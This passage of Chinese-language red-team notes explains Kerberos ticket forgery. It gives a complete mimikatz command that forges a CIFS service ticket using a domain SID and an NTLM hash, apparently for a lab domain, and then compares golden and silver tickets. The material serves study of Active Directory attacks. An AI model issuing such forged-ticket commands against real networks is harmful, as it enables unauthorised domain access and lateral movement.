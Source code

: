 

工具二：mimikatz

```
kerberos::golden /domain:redteam.red /sid:S-1-5-21-1359007890-1682372173-1631803504 /target:owa.redteam.red /service:cifs /rc4:6a624aa8c58aa3bbf387786088f34dad /user:administrator /ptt
```

<img src=".\图片\Snipaste_2023-09-25_18-11-42.png" alt="Snipaste_2023-09-25_18-11-42" style="zoom:80%;" />



### 金银票的区别

#### 获取的权限不同

金票：伪造的TGT，可以获取任意Kerberos的访问权限
银票：伪造的ST，只能访问指定的服务，如CIFS

#### 认证流程不同

金票：同KDC交互，但不同AS交互
银票：不同KDC交互，直接访问Server

#### 加密方式不同

金票：由krbtgt NTLM Hash 加密
银票：由服务账号 NTLM Hash 加密

